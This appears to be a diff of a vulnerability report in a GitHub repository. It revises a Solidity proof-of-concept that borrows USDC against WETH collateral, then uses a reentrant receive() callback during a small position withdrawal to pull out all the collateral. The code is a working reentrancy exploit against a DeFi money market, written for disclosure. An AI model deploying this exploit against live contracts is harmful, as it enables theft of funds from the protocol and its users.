

Before and after one commit to tmoor9/sscrypto, a Markdown page: VulnerabilityReport.md, the part around one of its changes. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/VulnerabilityReport.md
+++ b/VulnerabilityReport.md
@@ -77,91 +77,59 @@ contract AttackContractPoc {
 
-    constructor(
-        FluidMoneyMarket _moneyMarket,
-        FluidDexV2 _dexV2,
-        MaliciousERC20Poc _token0,
-        MaliciousERC20Poc _token1
-    ) {
-        moneyMarket = _moneyMarket;
-        dexV2 = _dexV2;
-        token0 = _token0;
-        token1 = _token1;
+        // 2. Borrow 200,000 USDC against the collateral
+        // WETH price is $4000, 100 WETH = $400,000 collateral.
+        // With 80% CF, can borrow up to $320,000.
+        uint256 usdcBorrowAmount = 200_000 * 1e6;
+        bytes memory borrowData = abi.encode(2, usdcTokenIndex, usdcBorrowAmount, address(this)); // NORMAL_BORROW_POSITION_TYPE
+        moneyMarket.operate(nftId, 0, borrowData);
     }
 
-    function setupAttackPosition(uint256 token0Index, uint256 token1Index, DexKey memory dexKey, int24 tickLower, int24 tickUpper) public {
-        token0.mint(address(this), 1000 * 1e18);
-        token1.mint(address(this), 1000 * 1e18);
-
-        token0.approve(address(moneyMarket), type(uint256).max);
-        token1.approve(address(moneyMarket), type(uint256).max);
-
+    function createD3Position(uint256 usdcTokenIndex, DexKey memory dexKey, int24 tickLower, int24 tickUpper) public {
         CreateD3D4PositionParams memory positionParams = CreateD3D4PositionParams({
-            token0Index: token0Index,
-            token1Index: token1Index,
+            token0Index: usdcTokenIndex,
+            token1Index: 1, // WETH is tokenIndex 1
             tickSpacing: dexKey.tickSpacing,
             fee: dexKey.fee,
             controller: address(this),
             tickLower: tickLower,
             tickUpper: tickUpper,
-            amount0: 100 * 1e18,
-            amount1: 100 * 1e18,
+            amount0: 1 * 1e6, // 1 USDC
+            amount1: 1, // 1 wei WETH
             amount0Min: 0,
             amount1Min: 0,
             to: address(this)
         });
 
         bytes memory actionData = abi.encode(3, positionParams); // D3_POSITION_TYPE
-        (nftId, positionIndex) = moneyMarket.operate(0, 0, actionData);
-    }
-
-    function borrow(uint256 usdcTokenIndex, uint256 borrowAmount) public {
-        bytes memory borrowData = abi.encode(
-            2, // NORMAL_BORROW_POSITION_TYPE
-            usdcTokenIndex,
-            borrowAmount,
-            address(this)
-        );
-        moneyMarket.operate(nftId, 0, borrowData); // Create new position for borrow
+        (, d3PositionIndex) = moneyMarket.operate(nftId, 0, actionData);
     }
 
     function attack() public {
-        bytes memory actionData = abi.encode(
-            -1, // Withdraw a tiny amount to trigger the transfer
-            -1,
+        // 4. Withdraw a tiny amount from the D3 position to trigger the reentrancy
+        bytes memory withdrawD3Data = abi.encode(
+            -1, // Withdraw a tiny amount of token0 (USDC)
+            -1, // Withdraw a tiny amount of token1 (WETH)
             uint256(0),
             uint256(0),
             address(this)
         );
-        moneyMarket.operate(nftId, positionIndex, actionData);
+        moneyMarket.operate(nftId, d3PositionIndex, withdrawD3Data);
     }
 
-    function onTokenTransfer() public {
+    receive() external payable {
         if (!reentered) {
             reentered = true;
-            bytes memory actionData = abi.encode(
-                type(int256).min, // Withdraw all remaining
-                type(int256).min,
-                uint256(0),
-                uint256(0),
+            // 5. Re-enter to withdraw the main collateral
+            bytes memory withdrawCollateralData = abi.encode(
+                type(int256).min, // Withdraw all
                 address(this)
             );
-            moneyMarket.operate(nftId, positionIndex, actionData);
+            moneyMarket.operate(nftId, collateralPositionIndex, withdrawCollateralData);
         }
     }
 }
 
-contract ReentrancyPoc is DexV2BaseSetup {
-    FluidMoneyMarket public moneyMarket;
-    FluidMoneyMarketAdminModuleImplementation public moneyMarketAdminModule;
-    FluidMoneyMarketOperateModule public moneyMarketOperateModule;
-    FluidMoneyMarketLiquidateModule public moneyMarketLiquidateModule;
-    FluidMoneyMarketCallbackImplementation public moneyMarketCallbackModule;
-    MaliciousERC20Poc tokenA;
-    MaliciousERC20Poc tokenB;
-    AttackContractPoc attacker;
-
-    constructor() {
-        setUp();
-    }
+contract ValidReentrancyTest is DexV2BaseSetup {
+    Attacker attacker;
 
     function setUp() public override {
         super.setUp();
```
Also changed, not shown: other parts of VulnerabilityReport.md (+90 -113 lines).
